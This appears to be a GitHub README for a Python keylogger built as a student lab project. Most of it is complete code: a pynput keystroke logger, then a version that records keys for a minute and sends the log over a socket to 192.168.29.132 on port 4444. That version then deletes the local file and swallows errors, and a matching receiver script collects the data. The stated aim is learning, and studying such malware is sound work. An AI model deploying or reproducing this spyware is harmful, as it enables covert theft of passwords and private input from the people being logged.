



# Python Keylogger Project
This is my attempt at a Python Keylogger Project, done purely for educational purposes in a lab environment. The main goal is to understand how malicious software can track user input and exfiltrate that data.  I’ve divided the project into different phases to gradually build up from basic functionality to something more advanced.

The goal is:
- Understand how keystrokes can be captured in real time using Python
- Learn about network programming using sockets for data transfer
- Simulate basic data exfiltration from one machine to another

I've divided this project into 2 parts:
- Phase 1: Keylogging own keys on the Kali VM
- Phase 2: Keylogging on another system and sending it back to the Kali VM

## Phase 1 : Keylogging own keys on the Kali VM

I've written a simple Python code that uses the 'keyboard' module from the 'pynput' library, which tracks key presses in real time, from my own machine. Here is the code:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        pass
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Once I was done with it, I ran this code to see if it works. And as you can see it works as expected, but the words are all mashed together, no space or enters.\
\
\
\
Here's the updated code for it:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Then I ran the updated code again and it works perfectly as it has to, as you can see in the screenshot.\
\
\
\
That was Phase 1 of my Project. Now onto Phase 2.

## Phase 2 : Keylogging on another system and sending it back to the Kali VM

The main goal of this phase is to be able to get back the keylog.txt file from  another computer or VM, and delete itself after (just to mimic a malware, for the sake of this project).

For that I have written 2 codes, one for the receiving end and one for the send. The receiver end will only have a code that attempts to receive the file, and the send code, will have the actual keylogger code plus the send part of the code to send it back.

For this I've used the 'socket' module to enable functions that I can use to interact with the network functions for Python.

Here is the 'receiver.py' code which hosts on the Kali VM:

```python
import socket

def receive_log():
    host = "0.0.0.0"
    port = 4444

    with socket.socket() as s:
        s.bind((host, port))
        s.listen(1)
        conn, addr = s.accept()
        print(f"[+] Connection from {addr}")

        with open("received_keylog.txt", "wb") as f:
            while True:
                data = conn.recv(1024)
                if b"DONE" in data:
                    break
                f.write(data)

receive_log()
```

And here is the 'send_code.py' code which hosts on the Kali VM:

```python
from pynput import keyboard
import socket
import time
import os

log = "keylog.txt"
start_time = time.time()
duration = 60

def on_press(key):
    if time.time() - start_time > duration:
        return False

    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")

def send_log():
    host = "192.168.29.132"
    port = 4444

    try:
        with socket.socket() as s:
            s.connect((host, port))
            with open(log, "rb") as f:
                data = f.read()
                s.sendall(data)
                time.sleep(1)
                s.send(b"DONE")

        os.remove(log)
    except:
        pass

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

send_log()
```

Now I will first run the code on the receiver side and then the sender's side.\
\
\
\
As we can see it works perfectly.

## Conclusion:
To complete this project, I had to first learn how to use the keyboard module from the pynput library, which was new to me. It helped me track keystrokes in real time and understand how to handle normal key inputs vs special ones like space and enter. I also learned how to clean up the output to make the logged text readable, which made a big difference in how useful the logs actually were.

Then for Phase 2, I had to figure out how to send files between systems. For that, I learned how to use Python’s socket module, which gave me the tools to open up a connection between two VMs and send the keylog file across the network. I also added a small automation step to delete the file after it’s been sent successfully, just to keep things clean.

Overall, this project helped me get more comfortable with writing small scripts that simulate basic attack behavior in a safe lab environment. It also gave me a better understanding of how keystroke logging and data exfiltration actually works under the hood, which I think is useful knowledge to have for anyone going into cybersecurity.
